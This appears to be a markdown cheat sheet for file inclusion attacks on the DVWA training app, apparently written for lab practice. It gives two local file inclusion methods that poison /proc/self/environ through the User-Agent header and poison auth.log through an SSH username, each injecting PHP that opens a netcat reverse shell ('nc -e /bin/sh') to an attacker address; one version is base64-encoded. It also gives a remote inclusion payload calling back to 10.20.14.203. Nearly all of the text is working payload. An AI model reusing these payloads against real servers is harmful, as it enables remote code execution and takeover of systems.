 # File Inclusion

## LFI - Method 1
1. *"USER_AGENT"* in in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify *"USER_AGENT"* header for test
   - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
3. Listening on attacker machine
   - ```nc -vv -l -p 8888```
4. Modify *"USER_AGENT"* header for Reverse-shell
   - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```  

## LFI - Method 2
1. SSH login attempts are in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
3. Listening on attacker machine 
   - ```nc -vv -l -p 8888```
4. Attacker machine
   - ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```


## RFI
1. Save the code as *"reverse.txt"*
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
2. Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
   - If extnsion be *"php"*, it will run on kali machine. 
   - ? is for run the code in victim machine
